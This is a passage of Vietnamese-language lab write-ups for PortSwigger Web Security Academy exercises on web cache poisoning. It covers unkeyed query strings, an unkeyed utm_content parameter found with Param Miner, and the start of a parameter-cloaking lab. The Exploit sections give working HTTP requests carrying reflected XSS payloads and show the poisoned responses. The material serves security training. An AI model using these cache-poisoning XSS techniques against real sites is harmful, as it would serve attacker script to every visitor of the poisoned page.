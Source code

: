 ```html
<link rel="canonical" href='//0a43005104ad20beda3c5184002d009e.web-security-academy.net/?abc'/>
```
#### Exploit
- Tạo **query string** chứa payload **XSS**

```http
GET /?abc'><img+src=1+onerror='alert(1) HTTP/2
Host: 0a43005104ad20beda3c5184002d009e.web-security-academy.net
```
- Gửi **request** quan sát khi **cache** cũ đã hết thì **cache** này sẽ thay thế
- Ứng dụng sẽ **reflected** ra **HTML** => **XSS** xảy ra

```html
<link rel="canonical" href='//0a43005104ad20beda3c5184002d009e.web-security-academy.net/?abc'/>
<img src=1 onerror='alert(1)'/>
```
- Khi người dùng try cập `/`, **cache** của **cache key** sẽ được trả về

### Lab: Web cache poisoning via an unkeyed query parameter
#### Analysis
- Truy cập ứng dụng
- Gửi **request** đến **Repeater**, thêm **query string** và gửi lại
- Làm như cách trên thêm **query string** khác nhau => response là **cache miss** => tạo **cache** khác nhau
- Dùng **Param miner** để quét **param unkeyed** 
    - Chuột phải > **Extensions** > **Param Miner** > **Unkeyed param** 
    - Ta tìm được **Unkeyed param** `utm_content`
- Quan sát **response** ta thấy có **reflected** ra **HTML**

```http
GET /?utm_content=abc HTTP/2
Host: 0ae3006c03810a86804b7bfc001200df.web-security-academy.net
```

```html
<link rel="canonical" href='//0ae3006c03810a86804b7bfc001200df.web-security-academy.net/?utm_content=abc'>
```
#### Exploit
- Tạo **query string** chứa payload **XSS**

```http
GET /?utm_content=abc'><img+src=1+onerror='alert() HTTP/2
Host: 0ae3006c03810a86804b7bfc001200df.web-security-academy.net
```
- Gửi **request** quan sát khi nào **cache** mới được tạo
- Ứng dụng sẽ **reflected** ra **HTML** => **XSS** xảy ra

```html
<link rel="canonical" href='//0ae3006c03810a86804b7bfc001200df.web-security-academy.net/?utm_content=abc'><img src=1 onerror='alert(1)'/>
```
- Khi người dùng try cập `/`, **cache** của **cache key** sẽ được trả về

### Lab: Parameter cloaking
#### Analysis
- Truy cập ứng dụng, gửi **request** đến **repeater**
- Gửi **request** với **param** `utm_content`
